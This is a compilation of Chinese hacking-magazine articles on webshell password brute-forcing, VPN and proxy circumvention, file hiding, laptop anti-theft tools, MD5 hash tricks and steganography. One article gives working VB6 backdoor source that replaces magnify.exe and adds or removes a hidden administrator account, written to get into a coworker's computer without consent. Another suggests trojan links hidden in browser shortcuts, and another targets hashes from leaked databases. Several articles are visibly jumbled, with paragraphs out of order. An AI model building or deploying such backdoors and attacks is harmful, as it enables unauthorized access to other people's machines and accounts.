还有一些自己简单编写的网页。


图1

#### 二、爆破

我们把工具解压出来并找到 dansnowb7setup.exe，双击打开一路点击 Next。安装成功后打开桌面的瀚雪 Beta7 快捷方式，瀚雪 Beta7 的界面如图1所示。这个是英文版的，我们再解压汉化包，将其中的 DanSnowB7.exe、PubAuth.key 覆盖到瀚雪 Beta7 的目录下。安装完之后我们就要开始爆破 webshell。为了演示方便，我自己写了个简单的 asp 网页，并用小旋风 AspWeb-Server 在本机构建 ASP 环境，asp 网页代码如下：

```asp
<%
If request.form("password")="0096" Then
'判断提交过来的密码如果等于0096那么显示以下内容
%>
<html>
<head><title>登录</title></head>
<body>
<p>密码正确</p>
</body>
</html>
<%
Else
'如果密码不正确就显示以下内容
%>
<html>
<head><title>登录</title></head>
<body>
<form action="" method="post">
请输入密码：<input type="text" name="password"><input type="submit" value="提交">
请输入密码1：<input type="text" name="password1"><input type="submit" value="提交1">
</form>
</body>
</html>
<%
```

我们打开瀚雪 Beta7.exe，刚开始打开默认是“个人Web浏览器模式”，我们将其切换到“拆分窗口模式”（右起第九个按钮），如图2所示。我们在 Address 右边的编辑框中输入 webshell 地址，因为我是在本机搭建了 asp 环境，所以访问地址为 http://127.0.0.1/。我把 asp 网页放到了网站根目录中，名字为“asp.asp”，则我们在 webshell 输入的地址为 http://127.0.0.1/asp.asp，再按回车键访问该 webshell，如图3所示。我们再点击“文件”选择“从当前URL导入”。下面的操作步骤一定要按顺序进行：我们选择“编辑”再选择“编辑提交表单”，在提交地址中输入 webshell 的地址后点击“确定”，如图4所示。


图2


图3

在这里的项目表单中要极为注意，我们要找到正确的“提交”按钮以及编辑框，否则密码将不能提交出去，无法实现破解。


图4

作完字典之后我们选择项目表单中的正确编辑框与按钮，如图6所示。我们点击“编辑”选择“编辑项目表单”，勾选“使用字典”，再按“浏览”按钮选择字典。其实作者已经为我们准备好密码字典了，但是密码字典不够强大，所以建议大家还是根据自己的实际情况生成密码字典。

选择完字典文件后我们点击“确定”，此时我们就可以开始破解了。点击“运行”选择“开始/重新开始”选项，它就会弹出一个要保存破解结果的对话框，我们勾选“只探测一次”再点击“确定”。它就会要你选择标志，也就是我们刚刚找的关键字“请输入密码”，我们填写上去按“确定”，如图7所示。软件就进行破解了，如果密码字典够强的话，破解出来应该是没有问题的，如图8所示就成功破解出来了。瀚雪 Beta7 不仅可以用来跑 webshell 的密码，有时候也可以跑路由器的等等。

在这里我也用了一个假按钮（提交1）做演示，不管你输入的密码正确与否都不能进入。我们选择正确的按钮，这个从其他页面中很容易看出。一般的 webshell 在密码验证处只有一个按钮。我们在浏览器中打开 webshell 来找一下输入密码不正确时的关键字，我随便输入一个密码看下——什么都没有变化，但是密码错误是可以确定的；如果密码正确则会进入 webshell 的控制界面（在这里是“密码正确”的字样）。因此我们可以将网页中的“请输入密码”作为关键字。我们打开易优超级字典生成器 3.35 配置自己的密码字典，选择完字符后切换到“生成密码”选项卡，选择生成密码位数，在这里我就选择4位了，大家可以根据自己的实际情况选择，然后就是保存密码字典了，如图5所示。


图5


图7


图6


图8

（文章中所用到的瀚雪 Beta7、易优超级字典生成器、asp.asp 已收录到光盘中）

## 浅谈Windows下设置IPv6并架设VPN翻墙


如图1，邮箱务必真实；需要收取密码，注册成功后，你很快就会收到密码，QQ邮箱的用户请直接到垃圾箱中查找。

使用你收到的密码登录，选择“Create Regular Tunnel”，如图2。在弹出的网页中，“IPv4 Endpoint”项填写连接端的IP地址，如果是你自己用，就直接把下面显示的你的IP填进去。再下面一行是推荐的IPv6服务器，直接 Submit 确认，如图3。


目前我们基本上使用的IP协议版本号是4（简称IPv4），它的下一个版本就是IPv6。该协议具有以下特点：

- IPv6地址长度为128比特，地址空间增大了2的96次方倍；
- 灵活的IP报文头部格式，使用一系列固定格式的扩展头部取代了IPv4中可变长度的选项字段；
- IPv6中选项部分的出现方式也有所变化，使路由器可以简单略过选项而不做任何处理，加快了报文处理速度；
- IPv6简化了报文头部格式，字段只有7个，加快报文转发，提高了吞吐量；
- 提高安全性。身份认证和隐私权是IPv6的关键特性；
- 支持更多的服务类型；
- 允许协议继续演变，增加新的功能，使之适应未来技术的发展。

此时，点击网站右侧的 Tunnelbroker，如图4，在下面就会出现你申请到的 IPv6 通道了，如图5，点击查看详细信息。在详细信息中，我们找到网页最后处，有一个下拉菜单，选择你的操作系统（此处以 Windows 7 为例），按一下 Show Config 按钮，弹出若干命令，复制一下，如图6。


现在，我就向大家简单介绍 IPv6 的设置方法，大家可以体验一把 IPv6 的优越性了。首先，我们到“http://www.tunnelbroker.net/”注册一个账户，点击右边的 Register，填写相关信息。

使用管理员权限运行 CMD，如图7，然后一句句把刚才的命令粘贴进去并执行，如图8。成功后，就完成了 IPv6 的设置。此时，我们需要的仅仅是重启了。

大家先不要重启，下面跟我一起来架设 VPN，来使用 IPv6 并翻墙。在刚刚的申请页面中，我们看到有一栏“IPv4 VPN(PPTP) BETA Information”，如图9，我们利用此处提供的 VPN 账户来架设 VPN。


图6


图9


图10


图7

在控制面板中打开“网络与共享中心”，点击“设置新的连接或网络”，如图10。选择“连接到工作区”，如图11；选择“使用我的 Internet 连接（VPN）”，如图12；填写你得到的账户信息，如图13，点击下一步；填写你得到的账户密码，如图14，点击创建，稍等片刻，就会告诉你“连接已经可以使用”，如图15。但即使你现在点击使用也是无法连接的，我们需要把它的安全类型改成 PPTP。


图11


图8


图12


返回到“网络与共享中心”，点击左边的“更改适配器设置”，如图16。右击你刚刚创建的 VPN 连接，点击属性，如图17。选择“安全”选项卡，VPN 类型改为“点对点隧道协议（PPTP）”，数据加密改为“可选加密”，如图18，点击确定。OK，此时你就可以使用你的 VPN 接入互联网了，如图19。


如上设置后，我们就可以使用 IPv6 来翻墙了。为了确定你是否已经成功设置 IPv6，最简单的方法就是访问 ipv6.google.com（IE 不行，建议 Firefox 或者 Chrome），这是只有 IPv6 用户可以使用的 Google 搜索，一般的 IPv4 用户是不能访问的。如果可以，那么恭喜你成功了，如图20。什么？不成功？那么请重新看看上文吧！

大家有没有发现，使用这个 VPN 看 youtube 特别特别快呢（甚至比看优酷都快，囧），如图21，这个就是 VPN 的好处了。以前在 X 上有过详细的介绍，在此就不多说了。另外，再提醒大家一下，第5期杂志上我写过一篇文章“让翻墙更加智能”，提到了 AutoProxy 等浏览器插件，在使用 VPN 时你必须关闭代理，否则无法实现翻墙，切记，如图22。


### 另类后门挖掘思路完整验证

踏雪

又到夏天了，麻烦事还挺多。最近一个朋友向我求助，他刚上班，公司还没给配电脑，只能蹭同事的电脑用用，不过电脑都有密码。我原本是想直接把密码给破了的，不过他说同事的密码会经常改。好吧，就做个后门吧。

上 API 函数。什么是 API 函数呢？API 说到底就是一系列的底层函数，是系统提供给用户用于进入操作系统核心、进行高级编程的途径。通过在 Visual Basic 应用程序中声明外部过程，就能够访问 Windows API（以及其它的外部 DLLs）。在声明了过程之后，调用它的方法与调用 Visual Basic 自己的过程相同。

我们这里要用到的 API 函数就是 GetKeyState 函数。这个 API 函数的作用是查询某个键的当前状态，若我们查询的键处于按下状态则会返回1，不处于按下状态则返回0。

在 VB 里调用 API 函数需要声明，声明很简单，只要在程序的声明处输入声明代码就可以了，代码可以在网上找到。这里提供一本电子书，里面收录有常用的 API 函数，而且提供 VB 的声明代码，图3就是电子书对 GetKeyState 函数的解释。


图1

#### 一、后门构思

原本是想弄个粘滞键后门，想想还是算了，粘滞键后门太多人用了，还是弄点不常用的吧。找了半天，决定在辅助工具管理器上面下手（可按 Win + U 打开），如图1。但是不能直接从它身上下手，辅助工具管理器里面有两个小工具，一个是放大镜（magnify.exe），一个是屏幕键盘（osk.exe）。我的构思是这样的：将放大镜改名为 magnify1.exe，再把我们的后门复制到 System32 目录下，更名为 magnify.exe。当我们的后门打开时，检测 NumLock 灯是否亮起，再检测 CapsLock 灯是否亮起，最后检测 ScrollLock 灯是否亮起；如果是的话，添加一个账户，接着退出；没有的话则删除特定用户。详细流程如图2所示。


图2


图3

#### 二、编程实现

编程语言选择 VB，IDE 是 VB6.0。我们做这个后门需要打开 VB6，新建“标准 EXE 工程”，在工程资源管理器中移除“Form1”，再添加一个模块。我们添加模块之后，在弹出的代码编辑框输入 GetKeyState 函数的声明代码。

好了，GetKeyState 函数的声明工作我们已经完成了，接下来就是后门的代码编写，代码如下：

```vb
Sub Main()
    If GetKeyState(20) = 1 Then
        '//20是CapsLock键的ASCII值
    End If

    If GetKeyState(144) = 1 Then
        '//144是NumLock键的ASCII值
    End If

    If GetKeyState(145) = 1 Then
        '145是ScrollLock键的ASCII值
        Shell ("net1 user king king /add")
        '如果三个灯都亮了则执行添加账户的命令
        Shell ("net1 localgroup administrators king /add")
        '执行将之前加的账户提升至管理员
    ElseIf GetKeyState(145) = 0 Then
        '如果ScrollLock灯没有亮起，则执行下面的命令
        Shell ("net1 user king /del")
        '把我们添加的用户删除
        Shell ("cmd.exe /c rd /s/q \\...\\king")
        '毁尸灭迹，把用户文件夹也给删掉
    ElseIf GetKeyState(144) = 1 Then
        '如果NumLock灯没有亮起，则执行下面的命令
        Shell ("magnify1.exe")
    ElseIf GetKeyState(20) = 1 Then
        Shell ("magnify1.exe")
    End If
End Sub
```

“net1 user king king /add”的作用是添加一个账户名和密码都为 king 的账户，大家只需把“king”改成自己想要的就行了，还有后面的命令也要改哦。

除此之外，Windows NT 系统有 WFP 机制，即保护系统文件。这个机制很好突破，只需要将我们的后门复制到 System32 目录的同时，也复制一份到 System32 下的 dllcache 目录中。还有一点，dllcache 目录默认是隐藏的，需要打开“我的电脑”，选择“工具”→“文件夹选项”，切换到“查看”选项卡，在隐藏文件和文件夹中选择“显示所有文件和文件夹”就行了。

（文章中所用到的 API For VB、后门及其源代码已收录到光盘中）

## 免费代理我用VPNPOP

圣智


我们在上网时经常需要用到 VPN 来隐藏自己。在一次闲逛中无意间发现了 VPNPOP，于是就试用了一下，感觉速度还是不错的。VPNPOP 有个优点就是设置较简单，不需要下载安装软件，直接在系统中按照步骤设置就可以使用了。

第一步当然是需要注册了。首先我们先在浏览器中打开 http://www.vpnpop.com/，在打开的网页中我们点击“create account”来注册一个账号。第一个（ACTIVE EMAIL ADDRESS）是填写你的邮箱；第二个（ALIAS）是填写你的昵称，注意在这里它不是用户名；第三个和第四个分别是填写密码和重复密码；其他的是填写地址之类的，系统已经自动为我们填写了，所以在这里就不用管它了。我们在输入验证码后，最后点击“create your trial account”创建我们的用户，如图1所示。创建成功后我们就会收到激活邮件，如图2所示。我们可以看到连接地址为“newjersey.vpnpop.com”，我们点击下面的连接地址激活用户。


注册完成后，下面我以 XP 系统为例：我们打开“网上邻居”，点击“查看网络连接”，之后再点击“创建一个新的连接”。在打开的窗口中选择“连接到我的工作场所的网络”，点击下一步；再选择“虚拟专用网络连接”，如图3所示。点击下一步，填写公司名（随便写），再选择“不拨初始连接”，点击下一步之后就是输入连接地址了，在这里输入的是“newjersey.vpnpop.com”，下一步完成。我们打开虚拟专用网络连接后输入刚刚注册的邮箱与密码，点击连接就可以了。我们再看下 IP 是不是变了？呵呵，如图4、图5所示。


### 巧设隐藏文件的绝密阁（9）

花的神明

保护重要文件的最好办法是将其彻底隐藏起来，让别人无法发现其踪迹。具有此类功能的安全软件有很多，我们往往巴不得将重要文件隐藏得越深越好，似乎这样才可以保护文件的安全。俗话说最危险的地方往往是最安全的地方，使用 FolderDefence Pro 这款## 黑洞式文件隐藏保护（FolderDefence Pro）

独特的安全软件可以打破常规，将最普通、最常见的文件夹设置为保护重要文件的“黑洞”。您只需将目标文件放置到其中，该文件就会立即“消失”。别人无论如何也想不到，在他们眼皮子底下最常见的文件夹竟然会是重要文件的藏身地；而您可以随时通过解密操作正常处理所需文件，这就巧妙地保护了文件安全。

点击浏览按钮，选择需要保护的文件夹，您可以选择看似普通的常用文件夹。勾选“Apply only for files of type”项，表示保护该文件夹中指定类型的文件。在其右侧列表中已经预设了一些常用文件类型，包括视频、Office 文档、音乐、应用程序、图片、网页等。这里为了便于说明，我们使用自定义文件类型。

假设我们需要对 WPS、DOC、RAR、TXT 等文件类型进行隐藏加密，在该列表中选择“Custom...”项，在自定义窗口（图3）中输入“wps;doc;rar;txt”（注意不同文件类型之间以分号相隔），点击 OK 按钮完成自定义文件类型添加操作。当然，您也可以根据需要添加新的类型。之后在上述保护设置窗口中勾选“Hidden&Locked”项，表示在选定的文件夹中隐藏并锁定预设文件类型。点击 OK 按钮完成该保护项目的添加操作。


FolderDefence Pro 提供了正常和隐藏两种安装模式。在其安装界面（图1）的“Personal Information”窗口中，最好选择“Stealth mode”项，激活隐藏安装模式。FolderDefence Pro 即可在系统中隐藏其自身所有安装信息（例如开始程序菜单、桌面、添加/删除程序窗口等位置）；这样别人就无法察觉 FolderDefence Pro 的踪迹。

为了让其运行得更加隐蔽，您最好更改其安装路径。当启动 FolderDefence Pro 时，可以手工打开预设安装路径（默认为“C:\Program Files\FolderDefence”），运行其中的“FolderDefence.exe”程序，即可启动 FolderDefence Pro。


当初次运行 FolderDefence Pro 时，最好在其主窗口点击菜单“Services”→“Change Password”项，更改其主控密码。若不知道该密码，就无法执行文件解密操作。点击工具栏上的“Add”按钮，在弹出窗口（图2）的“Path”栏中点击浏览按钮，选择需要保护的文件夹。


按照同样的方法，您可以对任意文件夹设置保护功能。在 FolderDefence Pro 设置窗口（图4）中显示所有添加的保护项目。之后就可以关闭 FolderDefence Pro，这对其保护功能没有任何影响。

您可以将需要保护的文件（例如重要的 WPS、DOC、RAR、TXT 等）直接复制到预设路径中，可以发现这些文件神奇般地消失了，如同进入了黑洞一样失去踪影。因为选定的是常用普通文件夹，别人可以自由进入，但是无论如何也不会想到看似普通常见的文件夹竟然会隐藏着机密文件，这就巧妙地保护了重要文件的安全性。

当您需要存取这些文件时，可以运行“FolderDefence.exe”程序，输入预设主控密码，在其主窗口中双击目标文件夹，在弹出窗口的“Protection method”栏中选择“No Protection”项，取消对该文件夹的保护。之后再进入该文件夹，就可以发现隐藏文件全部“现身”了，您可以正常进行各种操作。使用完毕后，在 FolderDefence 中重新将其保护状态设置为隐藏并锁定即可。

当然，为了防止别人往其中放置类似文件而发现“秘密”，您完全可以发挥想象，采取更加复杂的保护模式。例如可在保护设置窗口中自定义名称为“cxx;dxx”的文件类型，之后将重要 DOC 文件改为普通名称并修改后缀为“.cxx”（例如将“机密.doc”更名为“aaa.cxx”），将重要 Excel 文件改为普通名称并修改后缀为“.dxx”（例如将“密码.xls”更名为“abc.dxx”等）。也就是说，将重要 DOC 或 EXCEL 文件修改为后缀“cxx”“dxx”后放置到目标文件夹中，这样可让其伪装隐藏得更加彻底。即使别人往其中存入 DOC 和 Excel 文件，也发现不了其中奥秘。

当您需要使用时，先按上述方式解密，之后将后缀调整回来即可。为了让 FolderDefence 运行得更加隐蔽，您还可以自定义更多文件类型，达到深度隐藏文件的目的。

为了防止暴露 FolderDefence Pro 的行踪，可以在其主窗口点击菜单“Services”→“Clean tracks”项：点击第一项可删除开始文档菜单中与其关联的痕迹信息；点击第二项可在 Windows 的“Recent”文件夹中清除与 FolderDefence 关联的所有信息。

（文章中所用到的 FolderDefence Pro 已收录到光盘中）


### 追踪

一日闲来无事，像往常一样打开浏览器看新闻。当浏览器打开的那一瞬间，一个陌生的网站也随即展现在眼前。这是一个知名导航网站（如图1）。

其实我并没有设置什么网址，使用的也是空白页（如图2）。难道我中招了不成？我开始使用 360、超级巡警等常规工具扫描恶意软件，却并没有发现可疑之处。使用它们修复浏览器并锁定了浏览器主页（如图3）。


图1


图3


图2

可是我并没有设置成这个主页。当时也没在意，只是把主页设成空白页后作罢。第二天再次打开浏览器时，发现这个主页居然还在。我有些奇怪了：会不会是浏览器设置中的主页呢？

我使用的是世界之窗浏览器，它既可以使用 IE 主页，也可以自行设置主页。我打开该浏览器自带设置，发现其中并没有任何网址，使用的也是空白页。

本来以为这下万事大吉，谁料当我再次打开浏览器的那一瞬间，悲剧还是发生了——居然还在！明明已经锁定主页了，为什么还在？这下我百思不得其解。难道是浏览器有问题？

我开始使用腾讯 TT 浏览器，打开后并没有导航主页出现。接着试了几个其他浏览器，出来的都是空白页，只有世界之窗浏览器是导航页。看来真的是浏览器本身问题。但是问题出在什么地方？按理来说，主页设置就在两个地方：一个是 IE 默认主页，另一个是浏览器自带主页设置。可这两个地方都是空白页，而且已锁定为空白页，为什么还会有导航页呢？

不解中，我习惯性地打开了浏览器快捷方式的属性，发现在其目标中竟然有一段网址（如图4）。

我把这段网址去掉，再打开浏览器，终于出现了期待已久的空白页。原来问题出在这里。不过，可真够隐蔽的。大家再试想一下，如果把这个网址换成一个挂马网址，结果会怎样？或者再扩展一下：做一个浏览器修改版，放到网上让别人下载，我们只在浏览器安装好的快捷方式中做手脚，这样只是多了一小段网址；再将挂马页伪装成正常导航页面。这样不仅安全软件容易“瞎眼”，对普通用户的迷惑性也极强。

这一小段网址还可以做很多事情，具体如何利用，大家再自由发挥。本文没什么技术含量，讲的只是一个思路。


### 翻墙——你懂的，笑傲代理 Google

Lupin

最近经常有人问我怎么翻墙比较好，怎么访问 YouTube。遇到这类问题，我一般会告诉他们找代理服务器、免费 VPN 软件。可是现在稳定代理少之又少，好用 VPN 也几乎没有。当然我们还可以自己架设 VPN，但这种方法必须有能力入侵国外服务器。于是我在网上找了很久，终于找到这个办法：用 Google 一款名为 GAppProxy 的代理方案。经过测试非常稳定，代理速度飞快，不敢独享，拿出来和大家分享。

### 第一步 申请一个 Google App Engine 账号，开启一个应用


GAppProxy 是一个开源的 HTTP Proxy 软件，使用 Python 编写，运行于 Google App Engine 上。与其他代理服务器相比，GAppProxy 有三大优点。


进入 `http://appengine.google.com/`，在右边填入自己的 Google 账号和密码（图1），没有账号可以在下面申请。进入后点击“Create An Application”按钮（图2），打开新页面（图3）。在该页面填入手机号（前面加上 +86），点击 Send 按钮，手机会收到字符串验证码，输入验证码（图4）后即可成功申请 Google App Engine 账号。然后就可以开始创建应用：填入应用名称（图5），勾选 “I accept these terms”，点击 “Create Application” 按钮。出现下一页面即说明应用创建成功（图6）。访问 `https://appengine.google.com/`，即可看到我们创建的应用已经出现（图7）。

基于 Google App Engine 的方式架设方便、长期可用，不用隔天换代理 IP；其次，它是 Google 旗下项目，稳定性有保证；最后，Google 服务器遍布全球，所以 GAppProxy 速度相当快。GAppProxy 默认是公用代理服务器，用户多时速度一般。今天讲搭建 Google App Engine 个人代理服务器的具体实现，主要是搭建个人 Proxy，自己管理和使用，速度优于公共 Fetch Server，同时更不容易被封。下面介绍如何搭建自己的 Fetch Server。

```yaml
application: lu***
version: 1
runtime: python
api_version: 1

handlers:
- url: /fetch.py
  script: fetch.py
- url: /admin.py
  script: admin.py
```

把源码包中的 `app.yaml` 打开后，修改 `application` 字段为你创建的应用名称（图8）。如果你的 App Engine 地址是 `aaa.appspot.com`，那么 application 名称就是 `aaa`（注意冒号和用户名之间有一个空格），最后保存文件。


然后把这个源码包上传到应用中。要使用上传工具 SDUpload，下载地址：`http://code.google.com/p/sdapp/downloads/list`。将工具解压后，把源码包文件夹放在该目录下，在命令行执行 `SDUpload update fetchserver-1.0.0beta`（`fetchserver-1.0.0beta` 为源码包文件夹名），按提示输入 Google 账户和密码后开始上传（图9）。上传完成后访问 `http://yourname.appspot.com/fetch.py`，如果出现“GAppProxy/1.2.0 beta 已经在工作了”（图10）则表示安装成功，`yourname` 即你在 `app.yaml` 中设置的名称。


### 第二步 将 GAppProxy 源码包上传至 Google App Engine 应用

源码包可以到 `http://code.google.com/p/gappproxy/` 下载。把源码包和文章一起打包后，解压 `fetchserver` 服务端源码包，打开其中的 `app.yaml` 文件，修改第一行 `application` 后面的名称，把 `your_application_name` 改成你的应用名。

### 第三步 实现代理

打开 GAppProxy Windows 客户端文件夹，运行 `gui.exe`。在 “Use Fetch Server” 中填写 `http://yourname.appspot.com/fetch.py`（图11），勾选后点击 `Save` 并退出，再运行 `proxy.exe`，设置即可生效。


要是想直接注册为系统启动项，就打开 GAppProxy 里的 `service` 文件夹，双击 `install.bat` 文件，这样就可以注册为开机启动，会很方便。查看任务管理器是否有 `proxy.exe` 和 `srvany.exe` 两个进程，有则成功。

速度超快。好了，用 GAppProxy 做代理就介绍到这里，希望各位翻墙愉快，也祝黑叉越来越好。


图12


图13


图14

最后就是设置浏览器：打开 IE → 工具 → Internet 选项 → 连接 → 局域网设置，GAppProxy 默认地址端口为 `127.0.0.1:8000`（图12），保存设置即可大功告成。访问 ip138 查看 IP，已经“跑到”谷歌公司去了（图13）；再访问 YouTube 试试（图14），成功进入而且速度不错。

### 我的本本防窃秘招

对于笔记本用户来说，最糟糕的事情莫过于本本被别人偷走，因为这不仅会让您失去心爱的电脑，而且保存在其中的重要数据恐怕也会一去不复返。尤其是在公共场合，一旦您忙于其他事情而忘记“照顾”笔记本电脑，小偷就可能顺手牵羊轻松盗走爱机。

据权威部门统计：世界上平均每隔 53 秒就会发生一起笔记本电脑盗窃案，其中多数都是用户马虎大意造成的。如何才能尽量避免上述情况发生、保护笔记本电脑安全呢？除了看管好自己的爱机，最好的办法就是为笔记本装上防盗窃软件。当发生盗窃行为时，即可发出报警声，提醒您及时保护爱机。使用 LaptopAlarm、LAlarm 和 LaptopSentry 这三款软件，即可实现上述保护功能。

#### 使用 LaptopAlarm 保护本本安全

LaptopAlarm 安装完成后，会在系统中创建名为“LA-Service”的服务，可随系统自动运行。使用 LaptopAlarm 的前提是：您必须为当前账户设置登录密码。

在系统托盘中的 LaptopAlarm 图标右键菜单点击“Preferences”项，在设置窗口左侧点击“Dashboard”项，右侧会显示检查状态，包括笔记本是否连接电源线、当前账户是否设置登录密码、LaptopAlarm 当前版本号等信息。

在左侧点击“General”项，在右侧窗口（图1）中可设置：

- 勾选“The power cable is unplugged”：执行锁定后，若有人试图拔下电源线，LaptopAlarm 即可报警。
- 勾选“A shutdown/hibernation attempt is detected”：若有人试图关机或让系统休眠，LaptopAlarm 即可报警。
- 勾选“External peripherals are disconnected”：若有人试图拔下外设（如 U 盘、摄像头等），LaptopAlarm 即可报警。

在左侧点击“Sound”项，在右侧窗口（图2）中的“Please select an alarm”列表可选择报警声音类型。若选择“Custom”，可自定义声音文件作为报警音乐。在“Select a preferred volume”栏中拖动滑块可调整报警音量。勾选“Also sound system speaker”表示同时启用主板喇叭播放报警音乐。点击“Test”可测试报警效果，最后点击 OK 保存设置。

如何激活 LaptopAlarm 警戒功能？在 LaptopAlarm 图标右键菜单中点击“Lock this laptop now”，即可锁定系统并进入警戒状态。...


图1


图2


图3


图4


图5

#### 使用 LAlarm 保护本本安全

LAlarm 安装后会在系统中创建名为“LAlarm Service”的服务，可随系统自动运行。使用 LAlarm 的前提是必须将笔记本连接电源。点击“开始”→“Programs”→“LAlarm”→“Setup”，在 LAlarm 设置窗口（图3）打开“Alarm”面板，可看到“Enable Theft Alarm”项已经处于选中状态，且状态不可改变。...

当然，LAlarm 的功能远不止此。在“Alarm”面板中：

- 勾选“Enable Disk Alarm”：当磁盘发生故障时，LAlarm 可发出报警声。
- 勾选“Enable Battery Low Alarm at battery level X”：当电池容量过低时，可发出报警声。
- 勾选“Enable Battery Longevity Alarm”：当电池即将损坏时，可发出报警提示。

在“Sound”面板（图4）中：

- “Theft alarm sound”栏点击“Browse”，可设置盗窃事件报警声音文件。
- “Battery alarm sound”栏点击“Browse”，可设置电池过低或损坏时的报警音乐。
- “Disk alarm sound”栏可设置磁盘故障时使用的报警音乐。

LAlarm 除了检测笔记本安全状态，还提供重要数据保护与销毁功能。这样即使笔记本丢失，也可以找回重要数据，同时销毁敏感数据以避免更大损失。首先在“Email”面板（图5）中勾选“Theft alarm events”“Other alarm events”“Zone changes”等项，这样当触发各种类型报警事件时，LAlarm 可将相关事件写入系统日志，便于日后查阅。...在“Recovery”项中进行设置。这样当 LaptopAlarm 发现有人试图盗窃笔记本时，即可将预设文件夹中的内容压缩后发送到您的 Gmail 邮箱中。当发送完成后，即可将预设文件夹中的内容销毁。在“Destruction”面板中按照同样的方法，可以设置 5 个文件夹来指向您的敏感数据，在“Method”列表可以选择数据删除算法。这样当发生盗窃事件时，LaptopAlarm 即可使用预设的删除算法，来清除预设文件夹的内容。

在“Remove Drives”栏中勾选连接在笔记本电脑上的可移动设备（例如 U 盘等），勾选“Power Adapter Removal”项，表示检测电源线连接状态。之后点击窗口左下角的“Lock Me!”按钮，LaptopSentry 锁定系统并进入警戒状态。当 LaptopSentry 检测到有人试图拔下连接在本机上的鼠标、电源线、可移动设备等动作时，即可发出声音报警，来提示您笔记本已经处于危险状态。解除 LaptopSentry 警戒状态的方法很简单，在 LaptopSentry 锁定界面中输入解锁密码，即可将笔记本电脑恢复到正常工作状态。

## 使用LaptopSentry保护本本安全

LaptopSentry 安装之后，会在系统中创建名称为“LaptopSentry Service”的服务，可以使其跟随系统自动运行。在系统托盘中的 LaptopSentry 图标的右键菜单中点击“Settings”项，在设置窗口（如图6）右侧的“Unlock Password”栏中输入密码，点击“Change Password”按钮保存密码。在设置窗口左侧点击“Lock Settings”项，在右侧窗口中点击“Set Default”按钮，可以使用默认的报警音乐，也可以点击“Custom Sound”按钮，选择其他声音文件作为报警音乐。

LaptopSentry 可以检测笔记本的安全状态，当发现有人试图拔下电源线偷走电脑，或者试图拔下电脑上的外设时，即可发出报警信息。如果您希望暂时拔下电源线，又不想让 LaptopSentry 发出报警信息的话，可以在“Grace Period”栏中勾选“Enable Grace Period”项，在其下设置所需的时间间隔（单位为秒），这样只要在预设的时间间隔内拔下电源线，之后又将其重新连接上的话，LaptopSentry 就不会发出报警声。

为了保护重要数据的安全，可以使用 LaptopSentry 提供的远程数据备份功能。在设置窗口中点击“Remote Settings”项，在右侧窗口（如图7）中的“Gmail Settings”栏中输入您的 Gmail 邮箱地址和密码。点击“Test Settings”按钮，可以测试邮箱连接。在“Remote Emergency Backup”栏中勾选“Enabled”项，点击“Browse”按钮选择目标文件夹，这样当 LaptopSentry 检测到盗窃事件时，即可将目标文件夹中的内容压缩后发送到您的 Gmail 邮箱中。调整好以上配置后，点击“Save”按钮保存配置。

图6

图7

如何激活 LaptopSentry 的保护功能呢？在系统托盘的 LaptopSentry 图标的右键菜单中点击“Lock”项，在锁定窗口（如图8）中勾选“Enable Audible Alarm”项，激活其报警功能。在“SafeGuard Settings”面板中的“Mice”栏中勾选连接在笔记本电脑上的鼠标设备，在“Keyboard”栏中勾选键盘设备。

图8

（本文所涉及的软件 LaptopAlarm、LaptopSentry 已收录在本期光盘中）

## 惊人的40位MD5加密

年晓东

一日在 QQ 群上看到一个 Q 友提出现在有了 40 位的 MD5 加密，难道在 04 年山东大学的王小云教授宣布破解了 MD5 密码之后，出现了新的 MD6 加密？带着好奇我登录到提供 MD5 加密、解密的著名网站查看了一番，结果并没有看到关于 40 位 MD5 加密的信息，仍然是只提供了经典的 16 位和 32 位 MD5 加密和解密。这是怎么回事呢？后来又搜索了一些相关资料，发现现在使用这种所谓的 40 位 MD5 加密的网站还真不少数。

为了研究一下这是否是真的 40 位 MD5，找到了一套号称是 MD5 加密的程序，本地架设，以常用的“admin888”作为实验密码，我们来看一下它所对应的 40 位 MD5 密码：469e80d32c0559f88b3772452c0559f88b377245。除了位数是 40 位之外，其他的外在形式与 16 位和 32 位 MD5 密码没有什么不同，到底玄机在哪儿呢？借助 http://www.md5.org.cn/md5/index.asp 网站先为我们生成“admin888”的 16 位和 32 位 MD5 密码吧：469e80d32c0559f8（16 位），7fef6171469e80d32c0559f88b377245（32 位）。现在我们只需花一点时间来仔细对比一下这三组位数不同的 MD5 密码，很快就能发现所谓的 40 位 MD5 密码的“猫腻”，其实它完全就是由 16 位和 32 位的 MD5 密码组合而成的！

简单地截取成四部分：首先是第 1 至 16 位（469e80d32c0559f8），完全就是 16 位的 MD5 密码；然后是第 17 至 24 位（8b377245），取自 32 位 MD5 密码的最后 8 位；再就是第 25 至 32 位（2c0559f8），取自 16 位 MD5 密码的最后 8 位；最后的第 33 至 40 位则是与第 17 至 24 位完全相同（8b377245），同样取自 32 位 MD5 密码的最后 8 位。也就是说，40 位的 MD5 密码真像网上所说的那样，完全就是一个“障眼法儿”，无非就是将 16 位和 32 位的 MD5 密码进行肢解并重新组合了一下而已。这样的“加强版”MD5 密码好像无法被直接破解，其实我们只需截取开头的 16 位就行了，再到破解 MD5 的网站上进行破解就行了，只要数据库中有相关数据，破解完全不是问题，看来这 40 位的 MD5 密码完全就是个噱头。

在此以“admin888”为例整理成文，目的是给大家提个醒：万一你在下载到的数据库中真的发现了有 40 位 MD5 密码存在的话，可不要直接放弃啊，其实都是唬人的！

### 将机密信息“锁”在图片中

对于机密数据来说，我们当然不希望别人随意接触。将机密信息加密隐藏在图片中，不失为保护其安全的好方法。别人想不到看似普通的图片中会隐藏有重要数据，即使知道其中的奥秘，没有密码也无法进行解密。使用 MediaHider、Image Processor、File Off、OurSecret 等软件，下面我们就针对这 4 个软件讲解一下具体如何将机密信息彻底锁定在图片中。

### 一、MediaHider的使用方法

在 MediaHider 主窗口工具栏上点击第二个按钮，在弹出窗口中选择用于隐藏机密信息的图片。您可以使用 MediaHider 自带的图片，也可以在“Open a saved Lema”或者“Open a saved Photo”栏中点击“Browse”按钮，选择所需的宿主图片。之后点击 OK 按钮，在 MediaHider 主窗口中显示目标图片的内容。

MediaHider 提供了两种加密方式：一种是 Stego 方式，该方式的特点是可以在宿主图片中隐藏尽可能大的文件。该方式的缺点是使用 PhotoShop 等软件对图片进行编辑操作后，隐藏在其中的数据就无法解密了。另一种方法是 Watermark 方法，该方法特点是可以加密隐藏较小文件，但是可以有效对付图片编辑操作，只要图片变动的幅度不大于 50%，就不影响解密操作。

